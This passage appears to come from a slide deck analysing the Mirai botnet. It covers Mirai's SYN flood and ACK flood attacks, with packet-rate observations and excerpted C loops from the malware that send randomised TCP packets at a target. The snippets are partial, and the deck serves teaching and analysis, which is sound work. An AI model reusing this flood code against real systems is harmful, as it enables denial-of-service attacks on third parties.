 <br>
    - system may crash and bot is lost :(
        + some devices can't handle it

-------------------------------------------------

-> # Mirai <-

-> ## attacks!? <-

* SYN (synchronize) flood
    - via random src and dst port
        + 1:1 packet correlation (aka host replies with *syn-ack*)
        + input rate: about *700Kb/sec*
<br>

~~~ {.numberLines}
while (TRUE) {
    ...
    iph->id = rand_next() & 0xffff;
    tcph->source = rand_next() & 0xffff;
    tcph->dest = rand_next() & 0xffff;

    sendto(fd, pkt, sizeof (struct iphdr) + sizeof (struct tcphdr) 
    + 20, MSG_NOSIGNAL, (struct sockaddr *)&targs[i].sock_addr, 
    sizeof (struct sockaddr_in));
}
~~~~~~~~~~~~~~~~~~

-------------------------------------------------

-> # Mirai <-

-> ## attacks!? <-

* ACK flood
    - via random src and dst port
        + 1:1 packet correlation (aka host replies with *RST*)
        + input rate: about *5Mb/sec*
<br>

~~~ {.numberLines}
while (TRUE) {
    ...
    iph->id = rand_next() & 0xffff;
    tcph->source = rand_next() & 0xffff;
    tcph->dest = rand_next() & 0xffff;
    tcph->ack_seq = rand_next();

    sendto(fd, pkt, sizeof (struct iphdr) + sizeof (struct tcphdr) + 
    data_len, MSG_NOSIGNAL, (struct sockaddr *)&targs[i].sock_addr, 
    sizeof (struct sockaddr_in));
}
~~~~~~~~~~~~~~~~~~

-------------------------------------------------
